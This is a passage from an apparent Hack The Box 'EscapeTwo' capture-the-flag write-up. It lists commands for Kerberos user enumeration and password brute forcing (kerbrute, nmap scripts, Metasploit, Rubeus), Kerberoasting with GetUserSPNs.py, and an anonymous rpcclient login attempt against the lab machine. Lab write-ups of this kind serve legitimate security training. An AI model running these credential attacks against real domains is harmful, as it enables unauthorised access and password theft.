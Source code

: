    Command #1: `nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm=<Domain>,userdb=<Wordlist> <IP>`

   Command #2: `./kerbrute userenum <UserList> --dc <IP> --domain <Domain>`

   Command #3: `msfconsole ==> use auxiliary/gather/kerberos_enumusers`

   Command #4: `.\Rubeus.exe brute /users:<UserList> /passwords:<Wordlist> /domain:<Domain>`

2. **Kerberoasting**

   > Kerberoasting is a post-exploitation attack technique that attempts to obtain a password hash of an Active Directory account that has a Service Principal Name (“SPN”).

   Command: ` python GetUserSPNs.py <DomainName>/<DomainUser>:<Password> -outputfile <FileName>`

Let's try to enumerate users using `kerbrute`.


![Kerberos_Enum](/assets/images/hackthebox/EscapeTwo-Writeup/Kerberos_Enum.png)

We can see above `kerbrute` shows us four valid names, so we can note them for later use.

#### Port 135 (RPC)

> **Microsoft Remote Procedure Call (RPC) service**, which allows communication between different processes on a network. If this port is left open and unrestricted, it can be exploited by attackers to execute arbitrary code, gain unauthorized access to sensitive data or launch DDoS attacks.

##### **Enumeration**

1. **Connect to the server**

   Command: `rpcclient -N -U "" <target-ip>`

We can't login to the server using `RPC` as we don't have valid credentials.

![rpc_login](/assets/images/hackthebox/EscapeTwo-Writeup/rpc_login.png)
